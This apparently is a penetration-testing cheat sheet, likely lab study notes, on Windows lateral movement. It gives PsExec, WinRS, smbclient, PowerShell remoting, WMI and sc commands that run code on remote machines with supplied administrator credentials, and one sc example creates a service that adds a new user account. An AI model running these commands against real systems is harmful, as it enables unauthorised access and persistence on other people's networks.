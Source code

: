 # Unpatched Software<br>
## Check Installed Products<br>
wmic product get name,version,vendor<br>
Find for CVE:s online<br>

# Pivoting
### Running Commands As Another User
## PSExec<br>
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe<br>

## WinRS<br>
### When WinRM is enabled Ports: 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)<br>
winrs.exe -u:Administrator -p:Mypass123 -r:target cmd<br>

## SMBCLIENT
smbclient -c 'put myinstaller.msi' -U username -W ZA '//server.sa.domain.local/admin$/' password<br>
 putting file myinstaller.msi as \myinstaller.msi<br>
 
 ## PowerShell
$username = 'Administrator';<br>
$password = 'Mypass123';<br>
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; <br>
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;<br>
Enter-PSSession -Computername TARGET -Credential $credential<br>
or<br>
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}<br>

## WMI
$Opt = New-CimSessionOption -Protocol DCOM<br>
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop<br>
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";<br>
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $Command}<br>
### WMI (LEGACY)<br>
wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe" <br>

## Sc
### Ports: 135/TCP, 49152-65535/TCP (DCE/RPC) 445/TCP (RPC over SMB Named Pipes) 139/TCP (RPC over SMB Named Pipes)
#### Administrator required
### Note: sc doesn't work with SSH, spawn another shell (eg netcat) before using this
Start:<br>
sc.exe \\TARGET create servicename binPath= "net user munra Pass123 /add" start= auto<br>
sc.exe \\TARGET start servicename<br>
Shut Down:<br>
sc.exe \\TARGET stop servicename<br>